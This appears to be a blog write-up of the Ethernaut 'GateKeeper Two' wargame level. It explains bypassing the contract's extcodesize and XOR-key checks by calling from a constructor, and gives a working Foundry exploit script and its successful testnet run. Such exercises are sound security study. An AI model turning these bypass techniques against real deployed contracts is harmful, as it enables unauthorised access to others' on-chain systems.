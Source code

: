 ```yaml
---
layout: post
title: "[Ethernaut] GateKeeper Two"
tags: blockchain ethernaut foundry assembly extcodesize XOR
---
```


# Analysis

---

The goal is

1. Register as an entrant to pass this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

`assembly` keyword allows a contract to access functionality that is not native to vanilla Solidity.

`extcodesize` call will get the size of a contract's code at a given address.

If the size of a contract’s code at a given address is zero, it indicates that the address is EOA 

However, this seems to conflict with `gateOne()` modifier

In section 7 of [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf), I found sentence:

 > “During initialization code execution, EXTCODESIZE on the address should return zero”

I also found the concept “initialization code excution” in [here](https://docs.soliditylang.org/en/latest/contracts.html#creating-contracts).

> 💡 When a contract is **created**, its [constructor](https://docs.soliditylang.org/en/latest/contracts.html#constructor) (a function declared with the `constructor` keyword) is executed once.

 Solving the `gateThree()` modifier is straightforward if you use the properties of XOR:

given `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max` , derive `uint64(_gateKey)`  by computing `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max`

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/GateKeeperTwo.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    constructor(GatekeeperTwo gkt_) {
        bytes8 gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        gkt_.enter(gateKey);
    }
}

contract GateKeeperTwoSol is Script {
    GatekeeperTwo public gkt_ = GatekeeperTwo(0x1376d3d0070BE56e26c6F566EeC4fd975bD1aC63);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
    
        console.log("Before entrant: ", gkt_.entrant());
        Ex ex = new Ex(gkt_);
        console.log("After entrant: ", gkt_.entrant());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/GateKeeperTwoSol.sol:GateKeeperTwoSol --broadcast
[⠊] Compiling...
[⠒] Compiling 26 files with Solc 0.8.29
[⠆] Compiling 4 files with Solc 0.6.12
[⠑] Solc 0.6.12 finished in 42.16ms
[⠘] Solc 0.8.29 finished in 335.40ms
Compiler run successful with warnings:
Warning (2072): Unused local variable.
  --> script/GateKeeperTwoSol.sol:22:9:
   |
22 |         Ex ex = new Ex(gkt_);
   |         ^^^^^

Script ran successfully.

== Logs ==
  Before entrant:  0x0000000000000000000000000000000000000000
  After entrant:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.00107283 gwei

Estimated total gas used for script: 135274

Estimated amount required: 0.00000014512600542 ETH

==========================

##### holesky
✅  [Success] Hash: 0xe75e5f11118632a6eab29c325a0fdaa1891b6b082a341d628eb26f3b155cc2a1
Contract Address: 0x4D05500E91144D2F8aa3A2E54050659eC22bD6c2
Block: 3750329
Paid: 0.000000111634638854 ETH (104057 gas * 0.001072822 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000111634638854 ETH (104057 gas * avg 0.001072822 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-28-GateKeeperTwo/complete.png)